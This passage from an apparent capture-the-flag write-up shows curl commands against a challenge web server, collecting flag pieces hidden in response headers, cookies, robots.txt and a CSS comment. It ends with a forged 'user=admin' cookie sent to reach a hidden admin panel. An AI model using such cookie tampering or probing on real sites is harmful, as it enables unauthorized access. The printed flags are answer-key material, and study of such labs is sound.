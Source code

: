 **Flag 2/7:** `c4lm_4nd_` (from the `X-Flag-Part2` header)

---

```bash
curl -s http://34.150.251.3:3000/hidden_admin_panel --head
```

**Response:**

```
HTTP/1.1 403 Forbidden
X-Powered-By: Express
X-Flag-Part2: c4lm_4nd_
Set-Cookie: user=guest; Path=/; HttpOnly
Set-Cookie: flag_part3=1n5p3c7_; Path=/; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 1682
Connection: keep-alive
Keep-Alive: timeout=5
```

**Flag 3/7:** `1n5p3c7_` (from the second `Set-Cookie` header)

---

```bash
curl -s http://34.150.251.3:3000/robots.txt
```

> `robots.txt` is a common text file used by websites to provide crawling instructions.  
> Learn more: [https://developers.google.com/search/docs/crawling-indexing/robots/intro](https://developers.google.com/search/docs/crawling-indexing/robots/intro)

**Response:**

```
User-agent: *
Disallow: /hidden_admin_panel
# part4=411_7h3_
```

**Flag 4/7:** `411_7h3_`

---

```bash
curl -s http://34.150.251.3:3000/styles.css
```

**Response:**

```css
/* p_a_r_t_f_i_v_e=4pp5_*/
```

**Flag 5/7:** `4pp5_`

---

```bash
curl -s http://34.150.251.3:3000/hidden_admin_panel -H "Cookie: user=admin" | grep flag
```
